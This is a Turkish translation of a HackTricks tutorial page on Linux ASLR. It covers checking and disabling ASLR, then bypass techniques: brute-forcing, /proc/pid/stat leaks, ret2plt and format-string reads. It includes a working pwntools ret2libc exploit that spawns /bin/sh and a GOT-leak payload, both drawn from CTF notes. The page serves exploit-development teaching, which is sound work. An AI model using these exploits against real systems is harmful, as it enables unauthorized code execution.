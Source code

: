 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Temel Bilgiler

**Adres Alanı Düzeni Rastgeleleştirme (ASLR)**, işletim sistemlerinde kullanılan bir güvenlik tekniğidir ve **sistem ve uygulama süreçleri tarafından kullanılan bellek adreslerini rastgeleleştirir**. Bu sayede, bir saldırganın belirli süreçlerin ve verilerin, örneğin yığın, yığın alanı ve kütüphaneler gibi, konumunu tahmin etmesini önemli ölçüde zorlaştırır ve böylece belirli türdeki istismarları, özellikle de tampon taşmalarını azaltır.

### **ASLR Durumunu Kontrol Etme**

Bir Linux sisteminde ASLR durumunu **kontrol etmek için**, `/proc/sys/kernel/randomize_va_space` dosyasındaki değeri okuyabilirsiniz. Bu dosyada saklanan değer, uygulanan ASLR türünü belirler:

* **0**: Rastgeleleştirme yok. Her şey statik.
* **1**: İhtiyatlı rastgeleleştirme. Paylaşılan kütüphaneler, yığın, mmap(), VDSO sayfası rastgeleleştirilmiştir.
* **2**: Tam rastgeleleştirme. İhtiyatlı rastgeleleştirme ile rastgeleleştirilen unsurlara ek olarak, `brk()` ile yönetilen bellek rastgeleleştirilmiştir.

ASLR durumunu kontrol etmek için aşağıdaki komutu kullanabilirsiniz:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **ASLR'yi Devre Dışı Bırakma**

ASLR'yi **devre dışı bırakmak** için `/proc/sys/kernel/randomize_va_space` değerini **0** olarak ayarlarsınız. ASLR'yi devre dışı bırakmak, genellikle test veya hata ayıklama senaryoları dışında önerilmez. İşte bunu nasıl yapabileceğiniz:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
ASLR'yi bir yürütme için devre dışı bırakmak için de şunu kullanabilirsiniz:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **ASLR'yi Etkinleştirme**

ASLR'yi **etkinleştirmek** için, `/proc/sys/kernel/randomize_va_space` dosyasına **2** değerini yazabilirsiniz. Bu genellikle root ayrıcalıkları gerektirir. Tam rastgeleleştirme, aşağıdaki komutla yapılabilir:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Yeniden Başlatmalar Arasında Süreklilik**

`echo` komutlarıyla yapılan değişiklikler geçicidir ve yeniden başlatıldığında sıfırlanır. Değişikliği kalıcı hale getirmek için, `/etc/sysctl.conf` dosyasını düzenlemeniz ve aşağıdaki satırı eklemeniz veya değiştirmeniz gerekir:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Değişiklikleri uygulamak için `/etc/sysctl.conf` dosyasını düzenledikten sonra:
```bash
sudo sysctl -p
```
Bu, ASLR ayarlarınızın yeniden başlatmalar arasında kalmasını sağlayacaktır.

## **Atlatmalar**

### 32bit brute-forcing

PaX, işlem adres alanını **3 gruba** ayırır:

* **Kod ve veri** (başlatılmış ve başlatılmamış): `.text`, `.data` ve `.bss` —> `delta_exec` değişkeninde **16 bit** entropi. Bu değişken, her işlemle rastgele başlatılır ve başlangıç adreslerine eklenir.
* `mmap()` ile tahsis edilen **bellek** ve **paylaşılan kütüphaneler** —> **16 bit**, `delta_mmap` olarak adlandırılır.
* **Yığın** —> **24 bit**, `delta_stack` olarak adlandırılır. Ancak, etkili olarak **11 bit** kullanır (10. bayttan 20. bayta kadar dahil), **16 bayt** hizalanmış —> Bu, **524,288 olası gerçek yığın adresi** ile sonuçlanır.

Önceki veriler 32-bit sistemler içindir ve azaltılmış nihai entropi, istismar başarılı bir şekilde tamamlanana kadar yürütmeyi tekrar tekrar denemek suretiyle ASLR'yi atlatmayı mümkün kılar.

#### Brute-force fikirleri:

* Eğer shellcode'dan önce **büyük bir NOP kaydı** barındıracak kadar büyük bir taşma varsa, yığında adresleri brute-force ile deneyebilirsiniz, ta ki akış **NOP kaydının bir kısmının üzerinden atlayana kadar**.
* Taşma o kadar büyük değilse ve istismar yerel olarak çalıştırılabiliyorsa, **NOP kaydını ve shellcode'u bir ortam değişkenine eklemek** mümkündür.
* Eğer istismar yerel ise, libc'nin temel adresini brute-force ile denemeyi deneyebilirsiniz (32bit sistemler için yararlıdır):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Eğer uzaktaki bir sunucuya saldırıyorsanız, **`usleep`** `libc` fonksiyonunun adresini **brute-force** etmeyi deneyebilirsiniz, argüman olarak 10 (örneğin) geçerek. Eğer bir noktada **sunucu yanıt vermek için 10 saniye ekstra alıyorsa**, bu fonksiyonun adresini bulmuşsunuzdur.

{% hint style="success" %}
64 bit sistemlerde entropi çok daha yüksektir ve bu mümkün değildir.
{% endhint %}

### Yerel Bilgiler (`/proc/[pid]/stat`)

Bir sürecin **`/proc/[pid]/stat`** dosyası her zaman herkes tarafından okunabilir ve **ilginç** bilgiler içerir, örneğin:

* **startcode** & **endcode**: İkili dosyanın **TEXT**'inin üstünde ve altında bulunan adresler
* **startstack**: **stack**'in başlangıç adresi
* **start\_data** & **end\_data**: **BSS**'nin üstünde ve altında bulunan adresler
* **kstkesp** & **kstkeip**: Mevcut **ESP** ve **EIP** adresleri
* **arg\_start** & **arg\_end**: **cli argümanlarının** üstünde ve altında bulunan adresler.
* **env\_start** & **env\_end**: **env değişkenlerinin** üstünde ve altında bulunan adresler.

Bu nedenle, eğer saldırgan, istismar edilen ikili dosyanın bulunduğu bilgisayarda ise ve bu ikili dosya ham argümanlardan taşmayı beklemiyorsa, ancak bu dosyayı okuduktan sonra oluşturulabilecek farklı bir **girdi** üzerinden bekliyorsa, bir saldırganın **bu dosyadan bazı adresleri alması ve bunlardan istismar için ofsetler oluşturması mümkündür**.

{% hint style="success" %}
Bu dosya hakkında daha fazla bilgi için [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde `/proc/pid/stat` araması yapın.
{% endhint %}

### Bir leak'e sahip olmak

* **Zorluk bir leak vermektir**

Eğer size bir leak verilirse (kolay CTF zorlukları), ondan ofsetleri hesaplayabilirsiniz (örneğin, istismar ettiğiniz sistemde kullanılan tam libc sürümünü bildiğinizi varsayarak). Bu örnek istismar, [**buradan alınmıştır**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (daha fazla ayrıntı için o sayfaya bakın):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Bir buffer overflow kullanarak, libc'den bir fonksiyonun adresini dışarı sızdırmak için bir **ret2plt** istismar etmek mümkün olacaktır. Kontrol et:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

ret2plt'de olduğu gibi, eğer bir format string zafiyeti aracılığıyla rastgele bir okuma varsa, GOT'dan bir **libc fonksiyonu** adresini dışarı sızdırmak mümkündür. Aşağıdaki [**örnek buradan alınmıştır**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Daha fazla bilgi için Format Strings arbitrary read hakkında şunları bulabilirsiniz:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

ASLR'yi, yığın içindeki adresleri kullanarak atlatmayı deneyin:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
